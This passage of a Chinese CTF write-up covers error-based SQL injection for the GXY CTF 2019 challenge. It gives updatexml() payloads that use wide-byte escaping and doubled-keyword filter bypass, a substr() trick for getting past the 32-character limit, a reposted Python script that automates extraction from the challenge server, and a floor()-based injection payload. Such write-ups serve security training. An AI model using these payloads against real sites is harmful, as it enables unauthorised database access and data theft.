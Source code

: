 得到：`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0`解base64发现结果不全

![avatar](https://k1ng0fic3.github.io/images/sql18.png)

出现这种问题的原因是`updatexml()`限制长度为32位，超过32位的被丢弃了，所以上面无论是歌词还是flag，base64都经常缺个尾巴。
解决方法是用`substr()`它可以指定从字符串的某个位置开始，返回自定义长度：
>name=admin%df' and updatexml(1,concat(1, substr((seleselectct concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1),10,32)),1) --+ &pw=123

![avatar](https://k1ng0fic3.github.io/images/sql19.png)

得到`Rfam9iMWltX3NvX3ZlZ2V0YWJsZX0=`，把它和`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0`对比一下，整合得到`R1hZe2cwT2Rfam9iMWltX3NvX3ZlZ2V0YWJsZX0=`解base64，完毕。

![avatar](https://k1ng0fic3.github.io/images/sql20.png)

这个时候回想一下，是不是在f14g表中，也可以用这个办法查出flag列的信息呢，哈哈

<5> 转载工具
看了下*Nepnep*师傅们的WP，给出了一个updatexml的自动化脚本，转发以宣传之。
作者Shana、7TNE7，[原文链接](http://www.qfrost.com/PWN/GXY_CTF_2019/)
```python
import requests
import re
import base64

url = "http://183.129.189.60:10006/search.php/search.php?name=admin%df' and updatexml(1,concat(unhex(60),( substr((selselectect group_concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g),{},32)),unhex(60)),1)--+&pw=123"
num = 1
regularFilterStr = r"Error: XPATH syntax error: '`(.+?)'"
allBase64Str = ''
while 1:
    payload = url.format(num)
    num = num+31
    response = requests.get(payload)
    html = response.text
    if '`' in re.findall(regularFilterStr,html)[0]:
        break
    allBase64Str += re.findall(regularFilterStr,html)[0]

lists = allBase64Str.split(',')

for i in lists:
     print(base64.b64decode(i))
```

##### `floor()`报错注入原理：

已经废话太多了就不再啰嗦了，参考一下[这个链接](https://blog.csdn.net/qq_39101049/article/details/88839514)，照着打就行。
最终的payload：
>name=%df'and(seselectlect 1 from(sselectelect count(\*),concat((sselectelect (sselectelect  concat(327a6c4304ad5938eaf0efb6cc3e53dc) from f14g limit 22,1) from information_schema.tables limit 0,1),floor(rand(0)\*2))x from information_schema.tables group by x)a)--+&pw=123
